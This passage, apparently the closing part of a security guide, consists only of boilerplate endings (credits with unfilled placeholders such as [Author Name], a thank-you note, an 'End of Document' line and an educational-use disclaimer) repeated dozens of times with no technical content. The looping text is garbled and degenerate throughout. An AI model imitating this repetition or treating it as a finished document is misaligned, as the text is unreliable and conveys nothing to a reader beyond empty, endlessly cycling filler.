### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

